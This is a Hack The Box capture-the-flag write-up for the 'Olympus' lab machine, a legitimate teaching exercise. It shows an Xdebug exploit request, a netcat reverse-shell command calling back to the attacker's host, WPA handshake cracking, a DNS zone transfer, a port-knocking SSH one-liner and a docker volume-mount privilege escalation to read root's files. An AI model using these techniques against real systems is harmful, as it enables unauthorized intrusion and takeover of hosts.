 ```yaml
---
date: 2019-08-15
title: 'Hack The Box - Olympus Writeup'
slug: htb-olympus-writeup
template: post
categories:
 - HTB
tags:
 - HTB
---
```


I begun by scanning the box to find some interesting ports.

```
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
53/tcp   open     domain  (unknown banner: Bind)
80/tcp   open     http    Apache httpd
2222/tcp open     ssh     (protocol 2.0)
```

Port 80 was open so I visited the site and found a picture of the almighty God Zeus. I checked the response headers in the developer console and noticed the `xdebug` variable. According to my google fu, it's a PHP debugger which among other things, can be used to debug [*remote*](https://xdebug.org/docs/remote) PHP applications. 

I continued to recon the web for more info and found the following links:

[https://github.com/rapid7/metasploit-framework/pull/9916](https://github.com/rapid7/metasploit-framework/pull/9916)

[https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface](https://github.com/rapid7/metasploit-framework/pull/9916)

I used the script found in the last link. All you need to do is to setup a GET parameter and specify your attack IP in `X-FORWARDED-FOR`. I ran the `xdebug.py` script and sent the following HTTP request:

```
GET /index.php?XDEBUG_SESSION_START=phpstorm HTTP/1.1
Host: 10.10.10.83
User-Agent: Mozilla/5.0 (X11; Windows x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-FORWARDED-FOR: 10.10.14.7
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

The machine connected back to my attack machine! Next I setup a listener `nc -lvp 1337` and ran the following command from `xdebug.py`: `system("nc -e /bin/bash 10.10.10.14.7 1337")` which ran on the victim's box and created a reverse shell for me to use.

### WHAT'S IN THE BOX!?!?
After gaining access I looked for `user.txt` but couldn't find it. After checking the home folder of `zeus`, checking the process list with `ps aux` and checking the root directory, I started to think this must be a docker container. I uploaded `linenum.sh` which later also reported to believe that the host was actually a docker container.

The user `zeus` had downloaded the project `airgeddon` from github which is a tool for attacking wireless networks. Inside the project I found a .pcap file and a .txt file with the following message:

```
Captured while flying. I'll banish him to Olympia - Zeus
```

I opened the .pcap file and realised it was encrypted WLAN traffic, so I fired up `aircrack-ng` and got crackin! After 40 minutes using `rockyou.txt` as my wordlist, I found the password: `flightoficarus`. Inside the .pcap I could see clients connecting to an accesspoint called: `Too_cl0se_to_th3_Sun`.

I continued to scan the .pcap for more information but couldn't find anything. So I begun trying to SSH into the machine at port 2222 with different credentials, using greek mythology as my starting point. Everything I tried failed. One week later I try the same credentials again and voila, I had access. Why this didn't work the first time, I don't know. My guess is that people were hammering the machine hard so I timed out.

```
icarus:Too_cl0se_to_th3_Sun
```

Turned out this was an other docker container, I deduced that from the hostname and process list. There was only one file available, which had the following contents:

```

Athena goddess will guide you through the dark...

Way to Rhodes...
ctfolympus.htb

```

Okey, so now I have a new domain, and port 53/tcp was open according to my port scan, that can only mean one thing...DNS ZONE TRANSFER!

First I ran the following:

```
root@kali:~/Sites/htb-notes/olympus/http_serve# host -l ctfolympus.htb 10.10.10.83
Using domain server:
Name: 10.10.10.83
Address: 10.10.10.83#53
Aliases: 

ctfolympus.htb has address 192.168.0.120
ctfolympus.htb name server ns1.ctfolympus.htb.
ctfolympus.htb name server ns2.ctfolympus.htb.
mail.ctfolympus.htb has address 192.168.0.120
ns1.ctfolympus.htb has address 192.168.0.120
ns2.ctfolympus.htb has address 192.168.0.120
```

Okey nice, lets run the dns zone transfer!

```
root@kali:~/Sites/htb-notes/olympus/http_serve# dig axfr @ctfolympus.htb ctfolympus.htb

; <<>> DiG 9.11.3-1-Debian <<>> axfr @ctfolympus.htb ctfolympus.htb
; (1 server found)
;; global options: +cmd
ctfolympus.htb.		86400	IN	SOA	ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
ctfolympus.htb.		86400	IN	TXT	"prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
ctfolympus.htb.		86400	IN	A	192.168.0.120
ctfolympus.htb.		86400	IN	NS	ns1.ctfolympus.htb.
ctfolympus.htb.		86400	IN	NS	ns2.ctfolympus.htb.
ctfolympus.htb.		86400	IN	MX	10 mail.ctfolympus.htb.
crete.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
hades.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
mail.ctfolympus.htb.	86400	IN	A	192.168.0.120
ns1.ctfolympus.htb.	86400	IN	A	192.168.0.120
ns2.ctfolympus.htb.	86400	IN	A	192.168.0.120
rhodes.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
RhodesColossus.ctfolympus.htb. 86400 IN	TXT	"Here lies the great Colossus of Rhodes"
www.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
ctfolympus.htb.		86400	IN	SOA	ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
;; Query time: 46 msec
;; SERVER: 10.10.10.83#53(10.10.10.83)
;; WHEN: Mon May 14 19:27:19 CEST 2018
;; XFR size: 15 records (messages 1, bytes 475)
```

DNS zone transfer lets us get a copy of the zone file, so now we can see everything! The thing that stood out the most was:

```
ctfolympus.htb.		86400	IN	TXT	"prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
```

My thinking here was that the user `prometheus` needs to perform port knocking which will then open allow us to login via ssh on port 22, which was set to filtered according to my port scan.

Easy peasy one liner:

```
for port in 3456 8234 62431; do nc ctfolympus.htb $port 2> /dev/null; done; sshpass -p 'St34l_th3_F1re!' ssh -o "StrictHostKeyChecking no" prometheus@ctfolympus.htb
```

`sshpass` is a package which allows you to set the SSH password as an input parameter.

```bash
Welcome to
                            
    )         (             
 ( /(     )   )\ )   (      
 )\()) ( /(  (()/(  ))\ (   
((_)\  )(_))  ((_))/((_))\  
| |(_)((_)_   _| |(_)) ((_) 
| ' \ / _` |/ _` |/ -_)(_-< 
|_||_|\__,_|\__,_|\___|/__/ 
                           
prometheus@olympus:~$
```

Aww yeee, we got access to the host machine and not some stupid container! Since I knew the host was running docker, I tried some commands to see what I could do, and to my surprise, I could do anything!

In order to get `root.txt`, all we need to do is to simply start a container and map root's home directory into the container. First I tried to use a ubuntu image but that didn't work, so I checked `docker images` and picked one from there.

```
prometheus@olympus:~$ docker run --volume=/root:/volumes -i -t olympia /bin/bash
root@1c2a720c4fa5:/#
root@1c2a720c4fa5:/# ls /volumes/
root.txt
root@1c2a720c4fa5:/# cat /volumes/root.txt 
aba486990e2e849e25c23f6e41e5e303
root@1c2a720c4fa5:/#
```

And there you go.